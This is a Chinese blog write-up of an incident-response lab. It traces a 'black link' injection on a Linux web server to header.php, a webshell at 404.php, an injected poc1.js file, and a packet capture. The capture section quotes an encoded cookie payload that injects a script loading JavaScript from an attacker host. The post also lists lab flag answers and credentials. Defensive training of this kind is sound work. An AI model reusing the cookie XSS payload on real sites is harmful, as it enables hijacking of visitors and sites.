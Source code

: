 ```yaml
---
title: 【玄机靶场】第五章 linux实战-黑链
date: 2025-09-05
categories:
  - 靶场
  - 蓝队
image: images/45.webp
---
```

# 简介
服务器场景操作系统 Linux
服务器账号密码 root xjty110pora 端口 2222
任务环境说明
注：样本请勿在本地运行！！！样本请勿在本地运行！！！样本请勿在本地运行！！！
应急响应工程师小王某人收到安全设备告警服务器被植入恶意文件，请上机排查
# flag1
**找到黑链添加在哪个文件 flag 格式 flag{xxx.xxx}**
```php
/var/www/html
```
文件拉出来分析：
![Pasted image 20250402092201](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402092201.png)
```
flag{header.php}
```
# flag2
**webshell的绝对路径 flag{xxxx/xxx/xxx/xxx/}**
直接使用D盾进行扫描即可！
扫描出来一个一个分析一下。发现404.php为后门文件。
![Pasted image 20250402092553](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402092553.png)
![Pasted image 20250402092532](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402092532.png)
```
flag{/var/www/html/usr/themes/default/404.php}
```
# flag3
**黑客注入黑链文件的 md5 md5sum file flag{md5}**
D盾扫描出来的pool.js文件也很可疑
![Pasted image 20250402093130](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402093130.png)
![Pasted image 20250402093239](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402093239.png)
确定poc1.js为黑链文件。
```
PS D:\html> certutil -hashfile .\poc1.js MD5
```
![Pasted image 20250402093103](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402093103.png)
```
flag{10c18029294fdec7b6ddab76d9367c14}
```
# flag4
**攻击入口是哪里？url请求路径，最后面加/ flag{/xxxx.xxx/xxxx/x/}**
分析流量包
在 Wireshark 的过滤器中输入 `http` 以过滤出所有 HTTP 请求和响应。这将使我们能够专注于与 Web 流量相关的数据包，当然这里也可以直接尝试定位文件“poc1.js”，因为题三我们已经找到了黑客注入的文件是“poc1.js”，所以我们可以尝试查找一下相关的数据包；
```
http contains "poc1.js"
```
![Pasted image 20250402094329](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402094329.png)
![Pasted image 20250402094338](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402094338.png)
那我们右键追踪http进行分析；
![Pasted image 20250402094353](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402094353.png)
```
 Cookie: 09f1f9758c26c309477b55f3a4bac8de__typecho_remember_url=http%3A%2F%2Fxxx.xxx.com%2F%22%3E%3C%2Fa%3E%3Cscript%2Fsrc%3Dhttp%3A%2F%2F192.168.20.130%2Fpoc.js%3E%3C%2Fscript%3E%3Ca%2Fhref%3D%22%23
```
这里的 Cookie 包含了一段注入的 JavaScript 代码，显然是黑链攻击的一部分。
url解码为：
![Pasted image 20250402094431](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250402094431.png)
请求和响应中包含的信息表明`http://192.168.20.130/index.php/archives/1/`页面是黑链攻击的入口，通过Cookie注入的JavaScript代码引入了`poc1.js`文件，从而执行了恶意操作。这个URL是反弹的`poc1.js`的原因在于其作为恶意代码的载体和入口。
```
flag{/index.php/archives/1/}
```